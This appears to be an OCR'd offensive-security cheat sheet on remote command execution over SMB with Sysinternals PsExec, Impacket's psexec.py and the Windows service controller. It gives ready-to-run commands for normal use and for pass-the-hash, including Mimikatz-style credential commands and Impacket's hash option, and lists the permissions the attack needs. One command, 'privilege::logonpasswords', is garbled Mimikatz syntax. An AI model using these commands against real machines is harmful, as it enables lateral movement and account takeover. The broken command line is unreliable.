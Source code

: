 -------------------------------------------

# PsExec

## Microsoft Sysinternals Suite

Allows the execution of interactive commands over SMB using named pipes. 
* Connects to $ADMIN share
* Uploads a psexesvc.exe file. 
* Uses service control manager (sc) to start the service binary.
* Creates named pipe on destination host.
* Uses pipe for I/O operations.

### Normal usage
```cmd
PsExec.exe /accepteula \\<dest> -u <domain>\<user> -p <password> command
```

### Pass the hash
```cmd
privilege::logonpasswords
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>
PsExec.exe /accepteula \\<dest> command
```

## Impacket Toolsuite
Fails with interactive binaries such as powershell, vssadmin, plink etc. Uploads a service binary with an arbitrary name.

## Normal usage
```bash
python psexec.py user:password@<host> command
```

## Pass the hash
```bash
python psexec.py -hashes <hash> user@<host> command
```

## Manual PsExec behavior with sc

### Requirements
* Port 139,445 open on target machine.
* Password or NTLM hash.
* Write permissions on network share.
* Permission to create services on the remote machine: **SC_MANAGER_CREATE_SERVICE**
* Permission to start created service: **SERVICE_QUERY_STATUS + SERVICE_START**
